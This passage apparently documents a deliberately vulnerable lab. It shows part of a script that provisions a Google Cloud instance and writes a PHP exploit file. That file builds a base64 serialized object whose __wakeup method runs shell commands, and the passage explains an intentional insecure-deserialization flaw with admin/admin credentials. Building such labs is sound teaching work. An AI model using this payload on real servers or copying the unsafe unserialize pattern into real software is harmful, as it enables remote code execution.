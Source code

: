 ```bash
  --metadata google-compute-default-timeout=600 \
  --maintenance-policy=TERMINATE \
  --provisioning-model=STANDARD \
  --instance-termination-action=DELETE \
  --max-run-duration=300s

# Create the attack solution files
cat <<'EOF' > exploit.php
<?php
class Exploit {
    public $cmd = 'id';
    public function __wakeup() {
        echo "<pre>" . shell_exec($this->cmd) . "</pre>";
    }
}

// Create a payload
$payload = base64_encode(serialize(new Exploit()));
echo "Use the following URL parameter:\n";
echo "?data=$payload\n";
?>
EOF

echo "Attack solution files created: exploit.php"
```

---

## **Explanation**

### **1. System Setup**

- **Instance Creation**: The script creates a Google Cloud Compute Engine instance named `vulnerable-instance` in the `us-central1-a` zone.
- **Firewall Configuration**: Allows incoming HTTP traffic on port `80` to the instance.
- **Startup Script**: Configures the instance upon creation by installing necessary software and deploying the vulnerable application.

### **2. Web Application**

- **Authentication**: A simple login system (`admin`/`admin`) to simulate a secure admin panel.
- **Vulnerability**: An **Insecure Deserialization** vulnerability in PHP due to the use of `unserialize()` on untrusted data from `$_GET['data']`.
  - **Context**: The application expects serialized `Logger` objects but does not enforce allowed classes.
  - **Exploit**: An attacker can inject a malicious serialized object that executes arbitrary code upon deserialization.
- **Safe Function (Unused)**: There's a `safe_unserialize()` function that correctly uses the `allowed_classes` option, but it's not used in the code, simulating a developer's oversight.

### **3. Attack Solution Files**
